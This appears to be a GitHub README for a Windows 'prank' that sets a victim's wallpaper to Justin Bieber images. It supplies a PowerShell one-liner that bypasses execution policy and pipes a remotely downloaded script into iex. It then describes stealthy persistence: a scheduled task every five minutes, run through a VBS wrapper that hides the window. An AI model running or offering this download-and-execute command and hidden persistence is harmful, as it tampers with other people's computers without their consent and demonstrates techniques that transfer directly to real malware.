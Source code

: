 # Justin Wallpaper Prank

This script is a prank that will change the wallpaper of a victim's computer to Justin Bieber images.

It can be run by only running a single command in the cmd prompt.

Note: This only works on `Windows`. For `Mac` version, please check out [this repository](https://github.com/FredericMartinez/justin-hack) from [Frederic Martinez](https://github.com/FredericMartinez).

## How to use

In the command prompt, type the following command:

```powershell
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('https://raw.githubusercontent.com/mxcezl/Justin-Prank/master/install.ps1')|iex"

```

## How it works

The command above will download a powershell script from this repository and run it.

Firstly, the script will create a directory under `%userprofile%` and download Justin's image from [here](./images).

Then the script will download the [changer.ps1](./changer/changer.ps1) that is in charge of changing the wallpaper. This `changer.ps1` script will be scheduled in the task scheduler to run every 5 minutes.

The reason why we also have a `jhcaller.vbs` is because if we schedule a PowerShell script into the task scheduler, it will quickly show up a cmd window and disappear. This is not what we want. So we use a `vbs` script to call the `changer.ps1` script, which is a little work around :
    
```vbs
objShell.Run strCMD, 0
```

In the [jhcaller.vbs](./changer/jhcaller.vbs) we can see this line of code. This line of code will run the `changer.ps1` script in the background and won't show any pop-up.

Finally, the scheduled task is created via a [template](changer/taskTemplate.xml) in order to edit some configurations that are not avaible in the task scheduler CLI, such as activating the scheduled task if the computer isn't plugged-in.

## How to remove

In the command prompt, type the following command:

```powershell
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('https://raw.githubusercontent.com/mxcezl/Justin-Prank/master/unistall/uninstall.ps1')|iex"
```